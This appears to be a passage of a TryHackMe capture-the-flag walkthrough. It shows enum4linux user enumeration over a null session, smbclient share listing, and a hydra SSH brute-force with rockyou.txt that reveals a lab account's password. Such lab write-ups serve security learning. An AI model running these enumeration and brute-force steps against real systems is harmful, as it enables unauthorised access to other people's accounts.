 ```
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-5-21-2007993849-1719925537-2372789573 and logon username '', password ''
S-1-5-21-2007993849-1719925537-2372789573-501 THM_EXPLOIT\nobody (Local User)
S-1-5-21-2007993849-1719925537-2372789573-513 THM_EXPLOIT\None (Domain Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
enum4linux complete on Mon Oct 12 17:53:18 2020
```

* kel
* des
* tryhackme
* noentry

```
kali@kali:~/CTFs/tryhackme/Binex$ smbclient -L 10.10.45.117 -U anomymous
Enter WORKGROUP\anomymous's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (THM_exploit server (Samba, Ubuntu))
```

```
kali@kali:~/CTFs/tryhackme/Binex$ hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.117
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-12 17:55:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.45.117:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 134.33 tries/min, 403 tries in 00:03h, 14343998 to do in 1779:40h, 16 active
[STATUS] 116.86 tries/min, 818 tries in 00:07h, 14343583 to do in 2045:45h, 16 active
[22][ssh] host: 10.10.45.117   login: tryhackme   password: thebest
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-12 18:03:00
```

